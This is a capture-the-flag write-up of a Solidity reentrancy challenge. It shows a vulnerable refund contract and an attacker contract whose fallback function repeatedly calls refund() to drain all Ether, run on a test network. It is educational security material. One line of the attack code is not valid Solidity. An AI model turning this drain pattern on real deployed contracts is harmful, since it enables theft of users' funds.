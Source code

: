 # Refundable Purchase

![](./brief.png)

# Solution

Like the previous Smart Contract challenge we were provided with the source for a contract. The aim of the challenge was to drain the contract of all its Ether.

```solidity
pragma solidity ^0.4.24;

contract RefundablePurchase {

    event Refund(address, uint256);
    event PurchaseCompleted(address, uint256);

    address owner;

    mapping (address => uint256) public refunds;

    constructor() public payable {
        require(msg.value == 0.5 ether, "Must send 0.5 Ether");
    }

    /** Fallback function, called when contract receives Ether without data
     */
    function () external payable {
        require(refunds[msg.sender] + msg.value > refunds[msg.sender]); // Overflow guard
        refunds[msg.sender] += msg.value;
    }

    /** Refunds sent Ether
     */
    function refund() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        msg.sender.call.value(amount)("");
        refunds[msg.sender] = 0;
        emit Refund(msg.sender, amount);
    }

    /** Call this function once you've received your purchased item
     */
    function completePurchase() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        refunds[msg.sender] = 0;
        emit PurchaseCompleted(msg.sender, amount);
    }

    /** Returns balance of this contract
     */
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }

    /** CTF helper function
     *  Used to check if challenge is complete
     */
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

}
```

The vulnerability can be seen in the ```refund()``` method:

```solidity
function refund() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        msg.sender.call.value(amount)("");
        refunds[msg.sender] = 0;
        emit Refund(msg.sender, amount);
}
```

The line below is the key element of the potential exploit:

```solidity
msg.sender.call.value(amount)("");
```

This is where we can exploit this contract. This line sends the refunded Ether to the calling address. However, what if the return address is an Ethereum contract? This will trigger the fallback function of the contract. 
In Solidity smart contracts any funds sent to a contract without any data will be processed by the **fallback** address (if defined).

We can also see that the contract values are updated after the external call with:

```solidity
refunds[msg.sender] = 0;
```

We can use the concept of fallback function on a contract we control to call the refund method again and withdraw more Ether than we have been assigned! We can repeat this as many times are we want to completely drain the contract.

Below is the malicious contract used:

```solidity
pragma solidity ^0.4.24;

import "./challenge2.sol";

contract HackContract {

    RefundablePurchase public refundablePurchase;

    constructor (address _refundablePurchase) payable {
        refundablePurchase = RefundablePurchase(_refundablePurchase);
    }

    function start () {
        refundablePurchase.().value(msg.value);
        refundablePurchase.refund();
    }

    function () payable {
    if (refundablePurchase.balance >= msg.value) {
        refundablePurchase.refund();
    }
  }
}
```

The contract is constructed using the address to the target contract defined as ```refundablePurchase```.

The ```start()``` method is where the exploit will begin.

```solidity
function start () {
    refundablePurchase.().value(msg.value);
    refundablePurchase.refund();
}
```

It begins by sending some funds to pass the inital funds to pass the check of the RefundPurchase ```refund()``` function.

```solidity
function refund() public {
    require(refunds[msg.sender] > 0);
    [...]
```

It then calls the ```refund()``` function and starts the loop. The ```refund()``` function sends the refund back to the contract that then triggers the fallback function below:

```solidity
function () payable {
if (refundablePurchase.balance >= msg.value) {
    refundablePurchase.refund();
}
```

The fallback function checks if the contract has any funds left. If there are more funds to steal the method will call the ```refund()``` function again to repeat the process.

This was executed using Remix to upload the contracts to the Ropsten test network. When executing this it drains the contract of all its funds and completes the challenge to provide the flag

```
FLAG: flag{c411_15_n0t_s4f3_w1th_n0_g45_1imit}
```